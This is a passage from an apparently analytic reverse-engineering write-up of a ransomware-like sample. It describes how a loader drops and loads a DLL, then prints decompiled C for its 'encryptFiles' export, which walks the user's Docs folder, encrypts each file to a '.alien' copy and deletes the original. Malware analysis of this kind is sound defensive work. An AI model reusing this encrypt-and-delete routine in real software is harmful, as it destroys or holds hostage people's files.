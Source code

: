 This function writes a file to the operating system and then uses LoadLibraryA to inject the library into the original process. Then it grabs a function from what at this point I was guessing was a dll using GetProcAddress. Doing some more analysis it becomes obvious that the function pointer we get here is what is used in the main function with the string we create. I then extracted the dll and started reversing that.

I started off by finding the exported function we reference in the main .exe:

```c
__int64 __fastcall encryptFiles(char *a1)
{
  HANDLE v2;
  DWORD pcbBuffer[4];
  struct _WIN32_FIND_DATAW FindFileData; 
  WCHAR Buffer[264]; 
  WCHAR FileName[2048]; 
  WCHAR v8[2048]; 
  WCHAR v9[2048]; 

  pcbBuffer[0] = 257;
  GetUserNameW(Buffer, pcbBuffer);
  memset(v8, 0, sizeof(v8));
  wsprintfW(v8, L"C:\\Users\\%s\\Docs", Buffer);
  wsprintfW(FileName, L"%s\\*.*", v8);
  v2 = FindFirstFileW(FileName, &FindFileData);
  if ( v2 != (HANDLE)-1i64 )
  {
    do
    {
      if ( (FindFileData.cFileName[0] != 46 || FindFileData.cFileName[1])
        && (FindFileData.cFileName[0] != 46 || FindFileData.cFileName[1] != 46 || FindFileData.cFileName[2]) )
      {
        wsprintfW(FileName, L"%s\\%s", v8, FindFileData.cFileName);
        wsprintfW(v9, L"%s.alien", FileName, FindFileData.cFileName);
        if ( (FindFileData.dwFileAttributes & 0x10) == 0 )
        {
          sub_1800011C0(FileName, v9, a1);
          wremove(FileName);
        }
      }
    }
    while ( FindNextFileW(v2, &FindFileData) );
    FindClose(v2);
  }
  return 0i64;
}
```

This function seems to go to the path of C:\\Users\\\<current user\>\\Docs and then loops through and tries to encrypt everything that isn't the . or .. directory. After encrypting it seems to add the .alien component to the file.
